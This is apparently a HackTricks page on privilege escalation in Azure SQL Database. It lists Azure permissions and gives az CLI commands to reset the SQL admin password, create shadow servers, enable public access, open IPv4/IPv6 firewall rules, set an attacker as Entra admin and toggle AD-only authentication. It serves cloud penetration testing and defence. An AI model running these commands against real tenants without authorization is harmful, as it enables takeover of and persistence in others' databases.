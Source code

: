 # Az - SQL Database Privesc

{{#include ../../../banners/hacktricks-training.md}}

## SQL Database Privesc

For more information about SQL Database check:

{{#ref}}
../az-services/az-sql.md
{{#endref}}

### "Microsoft.Sql/servers/read" && "Microsoft.Sql/servers/write"

With these permissions, a user can perform privilege escalation by updating or creating Azure SQL servers and modifying critical configurations, including administrative credentials. This permission allows the user to update server properties, including the SQL server admin password, enabling unauthorized access or control over the server. They can also create new servers, potentially introducing shadow infrastructure for malicious purposes. This becomes particularly critical in environments where "Microsoft Entra Authentication Only" is disabled, as they can exploit SQL-based authentication to gain unrestricted access.

```bash
# Change the server password
az sql server update \
  --name <server_name> \
  --resource-group <resource_group_name> \
  --admin-password <new_password>

# Create a new server
az sql server create \
  --name <new_server_name> \
  --resource-group <resource_group_name> \
  --location <location> \
  --admin-user <admin_username> \
  --admin-password <admin_password>
```

Additionally it is necesary to have the public access enabled if you want to access from a non private endpoint, to enable it:

```bash
az sql server update \
  --name <server-name> \
  --resource-group <resource-group> \
  --enable-public-network true
```

### "Microsoft.Sql/servers/firewallRules/write"

An attacker can manipulate firewall rules on Azure SQL servers to allow unauthorized access. This can be exploited to open up the server to specific IP addresses or entire IP ranges, including public IPs, enabling access for malicious actors. This post-exploitation activity can be used to bypass existing network security controls, establish persistence, or facilitate lateral movement within the environment by exposing sensitive resources.

```bash
# Create Firewall Rule
az sql server firewall-rule create \
    --name <new-firewall-rule-name> \
    --server <server-name> \
    --resource-group <resource-group> \
    --start-ip-address <start-ip-address> \
    --end-ip-address <end-ip-address>

# Update Firewall Rule
az sql server firewall-rule update \
    --name <firewall-rule-name> \
    --server <server-name> \
    --resource-group <resource-group> \
    --start-ip-address <new-start-ip-address> \
    --end-ip-address <new-end-ip-address>
```

Additionally, `Microsoft.Sql/servers/outboundFirewallRules/delete` permission lets you delete a Firewall Rule.
NOTE: It is necesary to have the public access enabled

### ""Microsoft.Sql/servers/ipv6FirewallRules/write"

With this permission, you can create, modify, or delete IPv6 firewall rules on an Azure SQL Server. This could enable an attacker or authorized user to bypass existing network security configurations and gain unauthorized access to the server. By adding a rule that allows traffic from any IPv6 address, the attacker could open the server to external access."

```bash
az sql server firewall-rule create \
  --server <server_name> \
  --resource-group <resource_group_name> \
  --name <rule_name> \
  --start-ip-address <start_ipv6_address> \
  --end-ip-address <end_ipv6_address>
```

Additionally, `Microsoft.Sql/servers/ipv6FirewallRules/delete` permission lets you delete a Firewall Rule.
NOTE: It is necesary to have the public access enabled

### "Microsoft.Sql/servers/administrators/write" && "Microsoft.Sql/servers/administrators/read"

With this permissions you can privesc in an Azure SQL Server environment accessing to SQL databases and retrieven critical information. Using the the command below, an attacker or authorized user can set themselves or another account as the Azure AD administrator. If "Microsoft Entra Authentication Only" is enabled you are albe to access the server and its instances. Here's the command to set the Azure AD administrator for an SQL server:

```bash
az sql server ad-admin create \
  --server <server_name> \
  --resource-group <resource_group_name> \
  --display-name <admin_display_name> \
  --object-id <azure_subscribtion_id>
```

### "Microsoft.Sql/servers/azureADOnlyAuthentications/write" && "Microsoft.Sql/servers/azureADOnlyAuthentications/read"

With these permissions, you can configure and enforce "Microsoft Entra Authentication Only" on an Azure SQL Server, which could facilitate privilege escalation in certain scenarios. An attacker or an authorized user with these permissions can enable or disable Azure AD-only authentication.

```bash
#Enable
az sql server azure-ad-only-auth enable \
  --server <server_name> \
  --resource-group <resource_group_name>

#Disable
az sql server azure-ad-only-auth disable \
  --server <server_name> \
  --resource-group <resource_group_name>
```

{{#include ../../../banners/hacktricks-training.md}}
